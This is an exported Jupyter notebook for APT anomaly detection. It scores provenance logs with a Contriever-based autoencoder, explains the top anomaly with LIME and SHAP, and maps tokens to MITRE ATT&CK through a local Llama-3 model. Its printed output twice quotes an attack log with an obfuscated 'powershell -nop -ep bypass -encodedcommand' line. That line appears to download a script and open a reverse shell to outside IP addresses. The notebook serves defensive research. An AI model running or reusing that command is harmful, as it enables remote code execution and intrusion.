from sklearn.metrics import roc_auc_score, ndcg_score, dcg_score

# ==========================================
# 1. CONFIGURATION
# ==========================================
# Update these paths to match where your contriever data/weights are stored!
SPLIT_DIR = "final_train_test_split_contriever"  
MASTER_DATA_FILE = "all_data_with_sentences.pkl"  
MODEL_SAVE_DIR = "saved_weights_contriever"
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# [CONTRIEVER SPECIFIC CONFIG]
EMBEDDER_NAME = "facebook/contriever"
INPUT_DIM = 768    # CRITICAL: Contriever uses 768 dimensions!
MSE_AMPLIFIER = 1000.0  

print(f"Booting Deep Explainer for {EMBEDDER_NAME} on {DEVICE.upper()}...")
print("-" * 60)

# ==========================================
# 2. AUTOENCODER & PIPELINE
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        # input_dim will be 768, smoothly scaling up to 1024
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
    def forward(self, x): return self.decoder(self.encoder(x))

class APT_Explainer:
    def __init__(self, embedder_name, ae_model, device):
        self.device = device
        self.tokenizer = AutoTokenizer.from_pretrained(embedder_name)
        self.embedder = AutoModel.from_pretrained(embedder_name).to(self.device)
        self.embedder.eval()
        self.ae_model = ae_model.to(self.device)
        self.ae_model.eval()

    def predict_anomaly_score(self, text_list):
        if isinstance(text_list, np.ndarray): text_list = text_list.tolist()
        text_list = [str(t) if len(str(t).strip()) > 0 else "[PAD]" for t in text_list]

        batch_size = 16 
        all_errors = []
        
        for i in range(0, len(text_list), batch_size):
            inputs = self.tokenizer(text_list[i:i+batch_size], padding=True, truncation=True, max_length=128, return_tensors="pt").to(self.device)
            with torch.inference_mode():
                outputs = self.embedder(**inputs)
                
                # [CRITICAL FIX FOR CONTRIEVER]: Attention-Weighted Mean Pooling
                token_embeddings = outputs.last_hidden_state
                attention_mask = inputs['attention_mask'].unsqueeze(-1).float()
                sum_embeddings = torch.sum(token_embeddings * attention_mask, dim=1)
                sum_mask = torch.clamp(attention_mask.sum(dim=1), min=1e-9)
                embeddings = sum_embeddings / sum_mask
                
                # Normalize (Standard for contrastive models)
                embeddings = torch.nn.functional.normalize(embeddings, p=2, dim=1)
                
                recon = self.ae_model(embeddings)
                errors = torch.mean((embeddings - recon) ** 2, dim=1) * MSE_AMPLIFIER
                all_errors.extend(errors.cpu().numpy())
                
        return np.array(all_errors)

# ==========================================
# 3. LLAMA-3 MITRE MAPPER
# ==========================================
def get_mitre_from_llm(raw_log, suspicious_word):
    prompt = f"""You are an expert cybersecurity threat hunter. 
An anomaly detection system flagged this system log as a potential APT attack: '{raw_log}'
A mathematical explainer identified the token '{suspicious_word}' as the primary driver of this anomaly.
Based on this token and the context of the log, identify the single most likely MITRE ATT&CK Tactic and Technique ID. 
Format your response exactly like this: [Technique ID] - [Technique Name]. Do not include any other text.
If no technique matches, return 'Unknown'."""
    try:
        url = "http://localhost:11434/api/generate"
        payload = {"model": "llama3", "prompt": prompt, "stream": False, "temperature": 0.1}
        response = requests.post(url, json=payload, timeout=5)
        if response.status_code == 200:
            return response.json().get("response", "").strip()
        return "Unknown"
    except:
        return "Unknown"

# ==========================================
# 4. EXECUTION
# ==========================================
print(f"Loading Master Text Data...")
with open(MASTER_DATA_FILE, "rb") as f:
    master_text_data = pickle.load(f)

performers = [p for p in os.listdir(SPLIT_DIR) if os.path.isdir(os.path.join(SPLIT_DIR, p)) and not p.startswith('.')]
found_target = False

for performer in performers:
    test_dir = os.path.join(SPLIT_DIR, performer, "test")
    if not os.path.exists(test_dir): continue
        
    files = [f for f in os.listdir(test_dir) if f.endswith('.pkl')]
    
    for file in files:
        context = file.replace('.pkl', '')
        weight_path = os.path.join(MODEL_SAVE_DIR, f"{performer}_{context}_Baseline.pth")
        
        if not os.path.exists(weight_path): continue
            
        with open(os.path.join(test_dir, file), 'rb') as f:
            pkg = pickle.load(f)
            X_test, y_test = pkg['X'], pkg['y']
            
        if len(np.unique(y_test)) < 2: continue 

        model = VanillaAE(INPUT_DIM).to(DEVICE)
        model.load_state_dict(torch.load(weight_path, map_location=DEVICE))
        model.eval()
        
        tensor_test = torch.FloatTensor(X_test).to(DEVICE)
        with torch.no_grad():
            recon = model(tensor_test)
            all_errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
            
        auc = roc_auc_score(y_test, all_errors)
        try:
            dcg = dcg_score([y_test], [all_errors])
            idcg = dcg_score([y_test], [y_test])
            ndcg = ndcg_score([y_test], [all_errors])
        except:
            dcg, idcg, ndcg = 0.0, 0.0, 0.0

        print("\n" + "="*80)
        print(f"🎯 DATASET ACQUIRED: {performer.upper()} - {context}")
        print("-" * 80)
        print(f"Dataset Evaluation Metrics:")
        print(f"   AUC-ROC : {auc:.4f}")
        print(f"   DCG     : {dcg:.4f}")
        print(f"   IDCG    : {idcg:.4f}")
        print(f"   nDCG    : {ndcg:.4f}")
        print("="*80)

        try:
            df_text = master_text_data[performer][context]
            label_col = 'label' if 'label' in df_text.columns else 'y'
            text_col = 'sentence' if 'sentence' in df_text.columns else 'text'
            
            anomalies_df = df_text[df_text[label_col] == 1]
            if anomalies_df.empty: continue
                
            apt_logs_all = anomalies_df[text_col].tolist()
        except KeyError:
            continue

        pipeline = APT_Explainer(EMBEDDER_NAME, model, DEVICE)
        
        text_anomaly_scores = pipeline.predict_anomaly_score(apt_logs_all)
        worst_idx = np.argmax(text_anomaly_scores)
        target_log = apt_logs_all[worst_idx]
        target_score = text_anomaly_scores[worst_idx]
        
        print(f"\n[Deep Analysis of Top-Ranked Anomaly]")
        print(f"Raw Log: {target_log}")
        print(f"Amplified Anomaly Score: {target_score:.4f}\n")

        # ---------------------------------------------------------
        # LIME (Absolute Magnitude Sort)
        # ---------------------------------------------------------
        print("[1] Running LIME (Dynamic Probability Scaling)...")
        lime_explainer = LimeTextExplainer(class_names=['Normal', 'Anomaly']) 
        
        def lime_predict_wrapper(text_list):
            errs = pipeline.predict_anomaly_score(text_list)
            ptp = np.ptp(errs)
            probs = np.full_like(errs, 0.5) if ptp == 0 else 0.1 + 0.8 * ((errs - np.min(errs)) / ptp)
            return np.vstack((1 - probs, probs)).T
            
        try:
            lime_exp = lime_explainer.explain_instance(target_log, lime_predict_wrapper, num_features=5, num_samples=500)
            
            print("   Top LIME Drivers (Tokens causing largest latent shift):")
            # Sorted by absolute magnitude to catch structural breaks
            for word, weight in sorted(lime_exp.as_list(), key=lambda x: abs(x[1]), reverse=True):
                mitre = get_mitre_from_llm(target_log, word)
                sign = "+" if weight > 0 else ""
                print(f"      -> '{word}' (Impact: {sign}{weight:.4f}) | MITRE: {mitre}")
        except Exception as e:
            print(f"   [!] LIME error: {e}")

        # ---------------------------------------------------------
        # SHAP (Absolute Magnitude Sort)
        # ---------------------------------------------------------
        print("\n[2] Running SHAP (Amplified Variance)...")
        try:
            shap_explainer = shap.Explainer(pipeline.predict_anomaly_score, pipeline.tokenizer)
            shap_values = shap_explainer([target_log], max_evals=200) 
            
            words, impact_scores = shap_values.data[0], shap_values.values[0]
            # Sorted by absolute magnitude
            word_impacts = sorted(zip(words, impact_scores), key=lambda x: abs(x[1]), reverse=True)
            
            print("   Top SHAP Drivers:")
            for word, score in word_impacts[:5]:
                clean_word = word.strip()
                if len(clean_word) > 1:
                    mitre = get_mitre_from_llm(target_log, clean_word)
                    sign = "+" if score > 0 else ""
                    print(f"      -> '{clean_word}' (Impact: {sign}{score:.4f}) | MITRE: {mitre}")
        except Exception as e:
            print(f"   [!] SHAP error: {e}")

        found_target = True
        break 
        
    if found_target: break

print("\n" + "-"*80)
print("Pipeline Complete.")

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\tqdm\auto.py:21: TqdmWarning: IProgress not found. Please update jupyter and ipywidgets. See https://ipywidgets.readthedocs.io/en/stable/user_install.html
  from .autonotebook import tqdm as notebook_tqdm


Booting Deep Explainer for facebook/contriever on CUDA...
------------------------------------------------------------
Loading Master Text Data...

🎯 DATASET ACQUIRED: 5DIR - ProcessAll
--------------------------------------------------------------------------------
Dataset Evaluation Metrics:
   AUC-ROC : 0.9583
   DCG     : 1.6536
   IDCG    : 4.2545
   nDCG    : 0.3887


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\huggingface_hub\file_download.py:949: FutureWarning: `resume_download` is deprecated and will be removed in version 1.0.0. Downloads always resume when possible. If you want to force a new download, use `force_download=True`.
  warnings.warn(



[Deep Analysis of Top-Ranked Anomaly]
Raw Log: Process has event bind and event check_file_attributes and event close and event connect and event create_object and event create_thread and event execute and event exit and event fcntl and event fork and executable \windows\system32\cmd.exe.1 and network 0 and network 208.75.117.5 and network 208.75.117.6 and network 80 and attribute powershell  -nop -ep bypass -encodedcommand kaboaguadwatae8aygbqaguaywb0acaatgblahqalgbxaguaygbdagwaaqblag4adaapac4azabvahcabgbsag8ayqbkagyaaqbsaguakaanaggadab0ahaaogavac8amgawadgalga3adualgaxadeanwauadualwb1ahaazabhahqazqauahaacwaxaccalaagaccaqwa6afwacabyag8azwbyageabqbkageadabhafwadqbwagqayqb0agualgbwahmamqanackaowagac4aiabdadoaxabcahaacgbvagcacgbhag0azabhahqayqbcafwadqbwagqayqb0agualgbwahmamqa7acaacabvahcazqbyagmayqb0acaalqbjacaamgawadgalga3adualgaxadeanwauadyaiaatahaaiaa4adaaiaataguaiabjag0azaauaguaeabl
Amplified Anomaly Score: 0.2744

[1] Running LIME (Dynamic Probability Scaling)...
   Top LIME Drivers

##### v4 - Perturbation Comparison Code

In [2]:
import os
import pickle
import torch
import numpy as np
import shap
import requests
import torch.nn as nn
from transformers import AutoTokenizer, AutoModel
from sklearn.metrics import roc_auc_score, ndcg_score, dcg_score

# ==========================================
# 1. CONFIGURATION
# ==========================================
# Update these paths if your folders are named differently!
SPLIT_DIR = "final_train_test_split_contriever"  
MASTER_DATA_FILE = "all_data_with_sentences.pkl"  
MODEL_SAVE_DIR = "saved_weights_contriever"
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# [CONTRIEVER SPECIFIC CONFIG]
EMBEDDER_NAME = "facebook/contriever"
INPUT_DIM = 768    # CRITICAL: Contriever uses 768 dimensions
MSE_AMPLIFIER = 1000.0  

print(f"Booting Perturbation Sensitivity Analysis for {EMBEDDER_NAME} on {DEVICE.upper()}...")
print("-" * 60)

# ==========================================
# 2. AUTOENCODER & PIPELINE
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
    def forward(self, x): return self.decoder(self.encoder(x))

class APT_Explainer:
    def __init__(self, embedder_name, ae_model, device):
        self.device = device
        self.tokenizer = AutoTokenizer.from_pretrained(embedder_name)
        self.embedder = AutoModel.from_pretrained(embedder_name).to(self.device)
        self.embedder.eval()
        self.ae_model = ae_model.to(self.device)
        self.ae_model.eval()

    def predict_anomaly_score(self, text_list):
        if isinstance(text_list, np.ndarray): text_list = text_list.tolist()
        text_list = [str(t) if len(str(t).strip()) > 0 else "[PAD]" for t in text_list]

        batch_size = 16 
        all_errors = []
        
        for i in range(0, len(text_list), batch_size):
            inputs = self.tokenizer(text_list[i:i+batch_size], padding=True, truncation=True, max_length=128, return_tensors="pt").to(self.device)
            with torch.inference_mode():
                outputs = self.embedder(**inputs)
                
                # [CRITICAL FIX FOR CONTRIEVER]: Attention-Weighted Mean Pooling
                token_embeddings = outputs.last_hidden_state
                attention_mask = inputs['attention_mask'].unsqueeze(-1).float()
                sum_embeddings = torch.sum(token_embeddings * attention_mask, dim=1)
                sum_mask = torch.clamp(attention_mask.sum(dim=1), min=1e-9)
                embeddings = sum_embeddings / sum_mask
                
                # Normalize (Standard for contrastive models)
                embeddings = torch.nn.functional.normalize(embeddings, p=2, dim=1)
                
                recon = self.ae_model(embeddings)
                errors = torch.mean((embeddings - recon) ** 2, dim=1) * MSE_AMPLIFIER
                all_errors.extend(errors.cpu().numpy())
                
        return np.array(all_errors)

# ==========================================
# 3. LLAMA-3 MITRE MAPPER
# ==========================================
def get_mitre_from_llm(raw_log, suspicious_word):
    prompt = f"""You are an expert cybersecurity threat hunter. 
An anomaly detection system flagged this system log as a potential APT attack: '{raw_log}'
A mathematical explainer identified the token '{suspicious_word}' as the primary driver of this anomaly.
Based on this token and the context of the log, identify the single most likely MITRE ATT&CK Tactic and Technique ID. 
Format your response exactly like this: [Technique ID] - [Technique Name]. Do not include any other text.
If no technique matches, return 'Unknown'."""
    try:
        url = "http://localhost:11434/api/generate"
        payload = {"model": "llama3", "prompt": prompt, "stream": False, "temperature": 0.1}
        response = requests.post(url, json=payload, timeout=5)
        if response.status_code == 200:
            return response.json().get("response", "").strip()
        return "Unknown"
    except:
        return "Unknown"

# ==========================================
# 4. EXECUTION
# ==========================================
print(f"Loading Master Text Data...")
try:
    with open(MASTER_DATA_FILE, "rb") as f:
        master_text_data = pickle.load(f)
except FileNotFoundError:
    print(f"[!] CRITICAL ERROR: Could not find {MASTER_DATA_FILE}")
    exit()

if not os.path.exists(SPLIT_DIR):
    print(f"[!] CRITICAL ERROR: Could not find split directory at {SPLIT_DIR}")
    exit()

performers = [p for p in os.listdir(SPLIT_DIR) if os.path.isdir(os.path.join(SPLIT_DIR, p)) and not p.startswith('.')]
found_target = False

for performer in performers:
    test_dir = os.path.join(SPLIT_DIR, performer, "test")
    if not os.path.exists(test_dir): continue
        
    files = [f for f in os.listdir(test_dir) if f.endswith('.pkl')]
    
    for file in files:
        context = file.replace('.pkl', '')
        weight_path = os.path.join(MODEL_SAVE_DIR, f"{performer}_{context}_Baseline.pth")
        
        if not os.path.exists(weight_path): continue
            
        with open(os.path.join(test_dir, file), 'rb') as f:
            pkg = pickle.load(f)
            X_test, y_test = pkg['X'], pkg['y']
            
        if len(np.unique(y_test)) < 2: continue 

        # Load Autoencoder
        model = VanillaAE(INPUT_DIM).to(DEVICE)
        model.load_state_dict(torch.load(weight_path, map_location=DEVICE))
        model.eval()
        
        # Calculate Dataset Metrics
        tensor_test = torch.FloatTensor(X_test).to(DEVICE)
        with torch.no_grad():
            recon = model(tensor_test)
            all_errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
            
        auc = roc_auc_score(y_test, all_errors)
        try:
            dcg = dcg_score([y_test], [all_errors])
            idcg = dcg_score([y_test], [y_test])
            ndcg = ndcg_score([y_test], [all_errors])
        except:
            dcg, idcg, ndcg = 0.0, 0.0, 0.0

        print("\n" + "="*80)
        print(f"🎯 DATASET ACQUIRED: {performer.upper()} - {context}")
        print("-" * 80)
        print(f"Dataset Evaluation Metrics:")
        print(f"   AUC-ROC : {auc:.4f}")
        print(f"   DCG     : {dcg:.4f}")
        print(f"   IDCG    : {idcg:.4f}")
        print(f"   nDCG    : {ndcg:.4f}")
        print("="*80)

        # Extract Text Data
        try:
            df_text = master_text_data[performer][context]
            label_col = 'label' if 'label' in df_text.columns else 'y'
            text_col = 'sentence' if 'sentence' in df_text.columns else 'text'
            
            anomalies_df = df_text[df_text[label_col] == 1]
            if anomalies_df.empty: continue
                
            apt_logs_all = anomalies_df[text_col].tolist()
        except KeyError:
            continue

        pipeline = APT_Explainer(EMBEDDER_NAME, model, DEVICE)
        
        # Find the absolute worst anomaly
        text_anomaly_scores = pipeline.predict_anomaly_score(apt_logs_all)
        worst_idx = np.argmax(text_anomaly_scores)
        target_log = apt_logs_all[worst_idx]
        target_score = text_anomaly_scores[worst_idx]
        
        print(f"\n[Deep Analysis of Top-Ranked Anomaly]")
        print(f"Raw Log: {target_log}")
        print(f"Amplified Anomaly Score: {target_score:.4f}\n")

        # ---------------------------------------------------------
        # PERTURBATION SENSITIVITY ANALYSIS (SHAP)
        # ---------------------------------------------------------
        print("Running Perturbation Sensitivity Analysis...")
        
        # 1. STRATEGY: REMOVAL (Erases the word, shrinking the string)
        removal_masker = shap.maskers.Text(pipeline.tokenizer, mask_token="")
        explainer_remove = shap.Explainer(pipeline.predict_anomaly_score, removal_masker)

        # 2. STRATEGY: MASKING (Replaces word with the official UNK/MASK token)
        official_mask = pipeline.tokenizer.mask_token or pipeline.tokenizer.unk_token or "[MASK]"
        masking_masker = shap.maskers.Text(pipeline.tokenizer, mask_token=official_mask)
        explainer_mask = shap.Explainer(pipeline.predict_anomaly_score, masking_masker)

        # 3. STRATEGY: REPLACING (Swaps the bad word with a benign, safe word)
        replace_masker = shap.maskers.Text(pipeline.tokenizer, mask_token="normal")
        explainer_replace = shap.Explainer(pipeline.predict_anomaly_score, replace_masker)

        strategies = {
            "1. REMOVAL STRATEGY (Erased token entirely)": explainer_remove,
            "2. MASKING STRATEGY (Replaced with official tokenizer mask)": explainer_mask,
            "3. REPLACING STRATEGY (Swapped with the word 'normal')": explainer_replace
        }

        for strategy_name, explainer in strategies.items():
            print(f"\n[{strategy_name}]")
            try:
                # Reduced max_evals to 150 for faster processing across 3 explainers
                shap_values = explainer([target_log], max_evals=150)
                
                words = shap_values.data[0]
                impact_scores = shap_values.values[0]
                
                # SORTING FIX: Sort by absolute magnitude to catch the biggest explosions
                word_impacts = sorted(zip(words, impact_scores), key=lambda x: abs(x[1]), reverse=True)
                
                print(f"   Top 5 Drivers (Sorted by Absolute Blast Radius):")
                for word, score in word_impacts[:5]:
                    clean_word = word.strip()
                    if len(clean_word) > 1:
                        # Map to MITRE
                        mitre = get_mitre_from_llm(target_log, clean_word)
                        # Keep the sign to show direction, but remember we sorted by magnitude
                        sign = "+" if score > 0 else ""
                        print(f"      -> '{clean_word}' (Impact: {sign}{score:.4f}) | MITRE: {mitre}")
                        
            except Exception as e:
                print(f"   [!] Failed to calculate for this strategy: {e}")

        found_target = True
        break 
        
    if found_target: break

print("\n" + "-"*80)
print("Perturbation Analysis Complete.")

Booting Perturbation Sensitivity Analysis for facebook/contriever on CUDA...
------------------------------------------------------------
Loading Master Text Data...

🎯 DATASET ACQUIRED: 5DIR - ProcessAll
--------------------------------------------------------------------------------
Dataset Evaluation Metrics:
   AUC-ROC : 0.9583
   DCG     : 1.6536
   IDCG    : 4.2545
   nDCG    : 0.3887


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\huggingface_hub\file_download.py:949: FutureWarning: `resume_download` is deprecated and will be removed in version 1.0.0. Downloads always resume when possible. If you want to force a new download, use `force_download=True`.
  warnings.warn(



[Deep Analysis of Top-Ranked Anomaly]
Raw Log: Process has event bind and event check_file_attributes and event close and event connect and event create_object and event create_thread and event execute and event exit and event fcntl and event fork and executable \windows\system32\cmd.exe.1 and network 0 and network 208.75.117.5 and network 208.75.117.6 and network 80 and attribute powershell  -nop -ep bypass -encodedcommand kaboaguadwatae8aygbqaguaywb0acaatgblahqalgbxaguaygbdagwaaqblag4adaapac4azabvahcabgbsag8ayqbkagyaaqbsaguakaanaggadab0ahaaogavac8amgawadgalga3adualgaxadeanwauadualwb1ahaazabhahqazqauahaacwaxaccalaagaccaqwa6afwacabyag8azwbyageabqbkageadabhafwadqbwagqayqb0agualgbwahmamqanackaowagac4aiabdadoaxabcahaacgbvagcacgbhag0azabhahqayqbcafwadqbwagqayqb0agualgbwahmamqa7acaacabvahcazqbyagmayqb0acaalqbjacaamgawadgalga3adualgaxadeanwauadyaiaatahaaiaa4adaaiaataguaiabjag0azaauaguaeabl
Amplified Anomaly Score: 0.2744

Running Perturbation Sensitivity Analysis...

[1. REMOVAL STRATEGY (E

In [3]:
import os
import pickle
import torch
import numpy as np
import shap
import requests
import torch.nn as nn
from transformers import AutoTokenizer, AutoModel
from lime.lime_text import LimeTextExplainer
from sklearn.metrics import roc_auc_score, ndcg_score, dcg_score

# ==========================================
# 1. CONFIGURATION
# ==========================================
SPLIT_DIR = "final_train_test_split_contriever"  
MASTER_DATA_FILE = "all_data_with_sentences.pkl"  
MODEL_SAVE_DIR = "saved_weights_contriever"
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# [CONTRIEVER SPECIFIC CONFIG]
EMBEDDER_NAME = "facebook/contriever"
INPUT_DIM = 768    # CRITICAL: Contriever uses 768 dimensions
MSE_AMPLIFIER = 1000.0  

print(f"Booting Final XAI Pipeline for {EMBEDDER_NAME} on {DEVICE.upper()}...")
print("-" * 60)

# ==========================================
# 2. AUTOENCODER & PIPELINE
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
    def forward(self, x): return self.decoder(self.encoder(x))

class APT_Explainer:
    def __init__(self, embedder_name, ae_model, device):
        self.device = device
        self.tokenizer = AutoTokenizer.from_pretrained(embedder_name)
        self.embedder = AutoModel.from_pretrained(embedder_name).to(self.device)
        self.embedder.eval()
        self.ae_model = ae_model.to(self.device)
        self.ae_model.eval()

    def predict_anomaly_score(self, text_list):
        if isinstance(text_list, np.ndarray): text_list = text_list.tolist()
        text_list = [str(t) if len(str(t).strip()) > 0 else "[PAD]" for t in text_list]

        batch_size = 16 
        all_errors = []
        
        for i in range(0, len(text_list), batch_size):
            inputs = self.tokenizer(text_list[i:i+batch_size], padding=True, truncation=True, max_length=128, return_tensors="pt").to(self.device)
            with torch.inference_mode():
                outputs = self.embedder(**inputs)
                
                # [CRITICAL FIX FOR CONTRIEVER]: Attention-Weighted Mean Pooling
                token_embeddings = outputs.last_hidden_state
                attention_mask = inputs['attention_mask'].unsqueeze(-1).float()
                sum_embeddings = torch.sum(token_embeddings * attention_mask, dim=1)
                sum_mask = torch.clamp(attention_mask.sum(dim=1), min=1e-9)
                embeddings = sum_embeddings / sum_mask
                
                # Normalize (Standard for contrastive models)
                embeddings = torch.nn.functional.normalize(embeddings, p=2, dim=1)
                
                recon = self.ae_model(embeddings)
                errors = torch.mean((embeddings - recon) ** 2, dim=1) * MSE_AMPLIFIER
                all_errors.extend(errors.cpu().numpy())
                
        return np.array(all_errors)

# ==========================================
# 3. LLAMA-3 MITRE MAPPER
# ==========================================
def get_mitre_from_llm(raw_log, suspicious_word):
    prompt = f"""You are an expert cybersecurity threat hunter. 
An anomaly detection system flagged this system log as a potential APT attack: '{raw_log}'
A mathematical explainer identified the token '{suspicious_word}' as the primary driver of this anomaly.
Based on this token and the context of the log, identify the single most likely MITRE ATT&CK Tactic and Technique ID. 
Format your response exactly like this: [Technique ID] - [Technique Name]. Do not include any other text.
If no technique matches, return 'Unknown'."""
    try:
        url = "http://localhost:11434/api/generate"
        payload = {"model": "llama3", "prompt": prompt, "stream": False, "temperature": 0.1}
        response = requests.post(url, json=payload, timeout=5)
        if response.status_code == 200:
            return response.json().get("response", "").strip()
        return "Unknown"
    except:
        return "Unknown"

# ==========================================
# 4. EXECUTION
# ==========================================
print(f"Loading Master Text Data...")
try:
    with open(MASTER_DATA_FILE, "rb") as f:
        master_text_data = pickle.load(f)
except FileNotFoundError:
    print(f"[!] CRITICAL ERROR: Could not find {MASTER_DATA_FILE}")
    exit()

if not os.path.exists(SPLIT_DIR):
    print(f"[!] CRITICAL ERROR: Could not find split directory at {SPLIT_DIR}")
    exit()

performers = [p for p in os.listdir(SPLIT_DIR) if os.path.isdir(os.path.join(SPLIT_DIR, p)) and not p.startswith('.')]
found_target = False

for performer in performers:
    test_dir = os.path.join(SPLIT_DIR, performer, "test")
    if not os.path.exists(test_dir): continue
        
    files = [f for f in os.listdir(test_dir) if f.endswith('.pkl')]
    
    for file in files:
        context = file.replace('.pkl', '')
        weight_path = os.path.join(MODEL_SAVE_DIR, f"{performer}_{context}_Baseline.pth")
        
        if not os.path.exists(weight_path): continue
            
        with open(os.path.join(test_dir, file), 'rb') as f:
            pkg = pickle.load(f)
            X_test, y_test = pkg['X'], pkg['y']
            
        if len(np.unique(y_test)) < 2: continue 

        # Load Autoencoder
        model = VanillaAE(INPUT_DIM).to(DEVICE)
        model.load_state_dict(torch.load(weight_path, map_location=DEVICE))
        model.eval()
        
        # Calculate Dataset Metrics
        tensor_test = torch.FloatTensor(X_test).to(DEVICE)
        with torch.no_grad():
            recon = model(tensor_test)
            all_errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
            
        auc = roc_auc_score(y_test, all_errors)
        try:
            dcg = dcg_score([y_test], [all_errors])
            idcg = dcg_score([y_test], [y_test])
            ndcg = ndcg_score([y_test], [all_errors])
        except:
            dcg, idcg, ndcg = 0.0, 0.0, 0.0

        print("\n" + "="*80)
        print(f"🎯 DATASET ACQUIRED: {performer.upper()} - {context}")
        print("-" * 80)
        print(f"Dataset Evaluation Metrics:")
        print(f"   AUC-ROC : {auc:.4f}")
        print(f"   DCG     : {dcg:.4f}")
        print(f"   IDCG    : {idcg:.4f}")
        print(f"   nDCG    : {ndcg:.4f}")
        print("="*80)

        # Extract Text Data
        try:
            df_text = master_text_data[performer][context]
            label_col = 'label' if 'label' in df_text.columns else 'y'
            text_col = 'sentence' if 'sentence' in df_text.columns else 'text'
            
            anomalies_df = df_text[df_text[label_col] == 1]
            if anomalies_df.empty: continue
                
            apt_logs_all = anomalies_df[text_col].tolist()
        except KeyError:
            continue

        pipeline = APT_Explainer(EMBEDDER_NAME, model, DEVICE)
        
        # Find the absolute worst anomaly
        text_anomaly_scores = pipeline.predict_anomaly_score(apt_logs_all)
        worst_idx = np.argmax(text_anomaly_scores)
        target_log = apt_logs_all[worst_idx]
        target_score = text_anomaly_scores[worst_idx]
        
        print(f"\n[Deep Analysis of Top-Ranked Anomaly]")
        print(f"Raw Log: {target_log}")
        print(f"Amplified Anomaly Score: {target_score:.4f}\n")

        # ---------------------------------------------------------
        # LIME (With Dynamic Scaling & Absolute Sorting)
        # ---------------------------------------------------------
        print("[1] Running LIME...")
        lime_explainer = LimeTextExplainer(class_names=['Normal', 'Anomaly']) 
        
        def lime_predict_wrapper(text_list):
            errs = pipeline.predict_anomaly_score(text_list)
            # Min-Max Scale to [0.1, 0.9] to force LIME to track the MSE slope accurately
            ptp = np.ptp(errs)
            probs = np.full_like(errs, 0.5) if ptp == 0 else 0.1 + 0.8 * ((errs - np.min(errs)) / ptp)
            return np.vstack((1 - probs, probs)).T
            
        try:
            lime_exp = lime_explainer.explain_instance(target_log, lime_predict_wrapper, num_features=5, num_samples=500)
            
            print("   Top LIME Drivers (Sorted by Absolute Blast Radius):")
            # [THE ABSOLUTE FIX]: key=lambda x: abs(x[1])
            for word, weight in sorted(lime_exp.as_list(), key=lambda x: abs(x[1]), reverse=True):
                mitre = get_mitre_from_llm(target_log, word)
                # Keep the sign for visual display, but remember we sorted by the absolute size
                sign = "+" if weight > 0 else ""
                print(f"      -> '{word}' (Impact: {sign}{weight:.4f}) | MITRE: {mitre}")
        except Exception as e:
            print(f"   [!] LIME error: {e}")

        # ---------------------------------------------------------
        # SHAP (With Masking & Absolute Sorting)
        # ---------------------------------------------------------
        print("\n[2] Running SHAP...")
        try:
            # Tell SHAP to replace words with the official tokenizer mask (Standard for Contriever/BERT)
            official_mask = pipeline.tokenizer.mask_token or "[MASK]"
            masking_masker = shap.maskers.Text(pipeline.tokenizer, mask_token=official_mask)
            shap_explainer = shap.Explainer(pipeline.predict_anomaly_score, masking_masker)
            
            shap_values = shap_explainer([target_log], max_evals=200) 
            
            words, impact_scores = shap_values.data[0], shap_values.values[0]
            
            # [THE ABSOLUTE FIX]: key=lambda x: abs(x[1])
            word_impacts = sorted(zip(words, impact_scores), key=lambda x: abs(x[1]), reverse=True)
            
            print("   Top SHAP Drivers (Sorted by Absolute Blast Radius):")
            for word, score in word_impacts[:5]:
                clean_word = word.strip()
                if len(clean_word) > 1:
                    mitre = get_mitre_from_llm(target_log, clean_word)
                    sign = "+" if score > 0 else ""
                    print(f"      -> '{clean_word}' (Impact: {sign}{score:.4f}) | MITRE: {mitre}")
        except Exception as e:
            print(f"   [!] SHAP error: {e}")

        found_target = True
        break 
        
    if found_target: break

print("\n" + "-"*80)
print("Pipeline Complete.")

Booting Final XAI Pipeline for facebook/contriever on CUDA...
------------------------------------------------------------
Loading Master Text Data...

🎯 DATASET ACQUIRED: 5DIR - ProcessAll
--------------------------------------------------------------------------------
Dataset Evaluation Metrics:
   AUC-ROC : 0.9583
   DCG     : 1.6536
   IDCG    : 4.2545
   nDCG    : 0.3887


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\huggingface_hub\file_download.py:949: FutureWarning: `resume_download` is deprecated and will be removed in version 1.0.0. Downloads always resume when possible. If you want to force a new download, use `force_download=True`.
  warnings.warn(



[Deep Analysis of Top-Ranked Anomaly]
